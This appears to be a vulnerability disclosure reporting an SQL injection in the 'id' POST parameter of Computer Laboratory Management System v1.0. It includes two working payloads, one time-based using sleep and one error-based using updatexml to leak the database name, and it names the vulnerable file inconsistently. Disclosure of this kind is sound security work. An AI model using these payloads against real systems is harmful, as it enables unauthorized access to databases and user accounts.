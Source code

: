 BUG_Author: K1ngd0m3

Affected version: Computer Laboratory Management System v1.0

Vendor: https://www.sourcecodester.com/

Software: https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html

Vulnerability File: classes/master.php

Description: computer Laboratory Management System v1.0 is vulnerable to sql injection via /classes/Users.php The parameter “id” has not been handled correctly. Hackers can exploit this vulnerability to manipulate the system’s administrator account and gain full control over other user accounts’ information. image As shown in the screenshot, at line 154 of the source code, the parameter “id” has not been properly filtered, resulting in a SQL injection vulnerability.
![image](https://github.com/adminininin/blob/assets/136336674/d8a901af-17e2-430f-b0a0-236fcc9e5b40)
As shown in the screenshot, at line 163th of the source code, the parameter “id” has not been properly filtered, resulting in a SQL injection vulnerability.


POST parameter ‘id’ exists SQL injection vulnerability
![image](https://github.com/adminininin/blob/assets/136336674/f75faa88-8eef-488f-9f56-5a5b4f515a26)

Payload1:id=4'and+sleep(10)# 
![image](https://github.com/adminininin/blob/assets/136336674/1d3b2fd8-012e-4648-b04a-9c482f5e3feb)


you can see the server sleep ten seconds

Payload2:id=4'or(updatexml(0,concat(0x5e,database()),0)) 
![image](https://github.com/adminininin/blob/assets/136336674/06c9dd7b-4cf5-4704-9ac4-59735dba39af)

you can see the db_name
